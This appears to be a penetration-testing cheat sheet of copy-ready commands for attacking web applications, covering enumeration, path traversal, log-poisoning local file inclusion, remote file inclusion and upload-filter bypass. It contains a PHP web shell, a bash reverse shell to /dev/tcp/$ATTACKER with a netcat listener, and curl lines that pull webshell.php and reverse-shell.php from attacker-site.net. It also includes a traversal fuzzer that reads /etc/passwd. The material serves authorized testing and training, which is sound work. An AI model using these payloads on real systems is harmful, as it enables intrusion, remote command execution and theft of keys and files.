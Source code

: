 ## Table of contents
- [Web Application Enumeration](#Web-Application-Enumeration)
- [Directory Enumeration](#Directory-Enumeration)
- [Path Traversal](#Path-Travesal)
- [Local File Inclusion](#Local-File-Inclusion)
- [Remote File Inclusion](#Remote-File-Inclusion)

# Web Application Enumeration

| Tool / Resources                | Description                       |
|---------------------------------|-----------------------------------|
| https://www.wappalyzer.com      | Technology lookup                 |
| https://www.shodan.io/host/$IP  | Technology lookup and server informations |
| https://medium.com/api-center/api-bites-7373b2127ed1 | API path conventions |
| https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d | Fuzzing wordlist |
| whatweb                         | Web Server Enum.                  |
| wafw00f                         | WAF detection tool                |

``` bash
# Web Server Enumeration
nc $TARGET 80
telnet $TARGET 80
sudo nmap -p80,443 -sV $TARGET
sudo nmap -p80,443 -sS --script=http* $TARGET
sudo nmap -p80 --script=http-enum $TARGET
sudo nmap -p80 --script=http-enum --script-args http-enum.basepath="$PATH" $TARGET
```

# Directory Enumeration

Interesting files:
``` bash
curl https://$URL/robots.txt              # check robots file
curl https://$URL/security.txt            # check security file
curl https://$URL/.well-know/security.txt # check security file
```

Derectory searching:
``` bash
gobuster dir -u {TARGET} -w /usr/share/wordlists/...
gobuster dir -u {TARGET} -w /usr/share/wordlists/... -p pattern.txt # create a file "pattern.txt" and use the {GOBUSTER} placeholder: {GOBUSTER}/v1 {GOBUSTER}/v2
gobuster dir -u {TARGET} -w /usr/share/wordlists/... -x $EXT # search for extension
feroxbuster --url {TARGET} --depth 2 --wordlist /usr/share/wordlists/... --rate-limit REQUESTS_PER_SECOND # rate limit useful for Error 429: many requests
```

API discorevy:
``` bash
curl -i https://$URL/test/v1/item                                   # check API method
curl -G -d "param1=value1" $URL                                     # GET
curl -X PUT -d '{"test"}' -H "Content-Type: application/json" $URL  # PUT
curl -d '{"param1":"val1", "param2":"val2"}' -H "Content-Type: application/json" $URL # test API method
curl -d "param1=value1&param2=value2" -X POST $URL # default application/x-www-form-urlencoded
curl -d "param1=value1&param2=value2" -H "Content-Type: application/x-www-form-urlencoded" -X POST $URL # explicit application/x-www-form-urlencoded
curl -d "@data.txt" -X POST $URL # data file
```

# Path Traversal

Example:
``` bash
curl http://www.target-site.net/path/../../../../etc/passwd # relative path
curl http://www.target-site.net/index.php?image=/etc/passwd # absolute path
curl http://www.target-site.net/path/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd  # url encoding "../"
```

Test script:
``` python
# usege: python3 $scriptname http://$IP/path/for/app/ 10 /tmp/test.txt
import sys, subprocess

url = sys.argv[1] # URL target
max_iteration = int(sys.argv[2])+1 # deep
filetocheck = sys.argv[3]
elements = ['../', '%2e%2e/', '%2e%2e%2f', '..%2f', '..%c0%af'] # extend

for element in elements:
  for i in range(1, max_iteration):
    path = element*i
    curl_command = ["curl", "{0}{1}{2}".format(url, path, filetocheck)]
    res = subprocess.run(curl_command, capture_output=True, text=True)
    print("Check for {0}{1}{2}".format(url, path, filetocheck))
    print(res.stdout)
```

# Local File Inclusion

Include some content on the application page to execute it. For example, inject a PHP code snippet into the Apache log file within an application that reads the file directly from the file system.
``` php
<?php echo system($_GET['cmd']); ?>
```

If the application reads the Apache log, you can try sending a command.
``` bash
curl http://www.target-site.net/index.php?x=page.php -A "TEST" # change User-agent
curl http://www.target-site.net/index.php?x=../../../../var/log/apache2/access.log&cmd=pwd # send command pwd
curl http://www.target-site.net/index.php?x=../../../../var/log/apache2/access.log&cmd=ls%20-la # encode the space char "ls -al"
```

Use this technique to one a reverse shell:
``` bash
# create a listener
nc -nvlp 1337

# send the reverse shell command
curl http://www.target-site.net/index.php?x=../../../../var/log/apache2/access.log&cmd=bash -c "bash -i >& /dev/tcp/$ATTACKER/1337 0>&1" # not encoded
curl http://www.target-site.net/index.php?x=../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.1%2F4444%200%3E%261%22 # encoded, change the IP address
```

Change the User-Agent value via Burp Suite repeater (example):
```
GET /index.php?x=page.php HTTP/1.1
Host: target-site.net
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
```

Read the content of PHP page via php://filter:
```
curl http://$IP/index.php?page=php://filter/convert.base64-encode/resource=page.php
```

# Remote File Inclusion

``` bash
curl http://www.target-site.net/index.php?page=http://attacker-site.net/webshell.php&cmd=ls # simple command
curl http://www.target-site.net/index.php?page=http://attacker-site.net/webshell.php&cmd=cat+/home/user/.ssh/authorized_keys # read content
curl http://www.target-site.net/index.php?page=http://attacker-site.net/reverse-shell.php # include a reverse shell command
```

# File Upload

Bypass file upload policies.
Via BurpSuite, edit the content and modify the extension from .php to .PHP (or other valid extension):
```
Content-Disposition: form-data; name="fileToUpload"; filename="php-backdoor.PHP"
Content-Type: application/x-php
```

Send command via curl
```
curl "http://$IP/path/uploads/simple-backdoor.PHP?cmd=dir"
```

